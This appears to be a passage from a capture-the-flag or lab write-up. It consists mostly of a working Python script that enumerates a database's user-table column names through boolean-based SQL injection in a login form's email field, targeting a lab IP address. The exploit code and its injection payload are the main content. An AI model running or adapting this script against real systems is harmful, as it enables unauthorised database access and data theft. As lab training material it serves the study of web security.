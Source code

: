 ```bash
python3 exploit.py
```

![](/img2/Pasted%20image%2020250514123856.png)

- Get User columns

```python
#!/usr/bin/env python3

import requests
import signal
import sys
import string
import time
from pwn import *


def def_handler(sig,frame):
	print("\n\n[!] Exiting...\n")
	sys.exit(1)


signal.signal(signal.SIGINT,def_handler)


url = "http://10.10.11.130/login"
characters = string.ascii_lowercase + "_,-" + string.digits



def SQLI():
	p1=log.progress("Brute Force")
	p1.status("Starting Attack")

	time.sleep(2)

	p2=log.progress("Data")
	info=""


	for position in range(1,1000):
		for character in characters:
			data = {
  			'email' : "test'or SUBSTRING((SELECT group_concat(column_name) from information_schema.columns where table_name='user'), "+str(position)+", 1) = '"+character+"'-- -",
  			'password' : 'test'}
			r=requests.post(url,data=data)
			if "Login Success" in r.text:
				info+=character
				p2.status(info)
				break

SQLI()
```
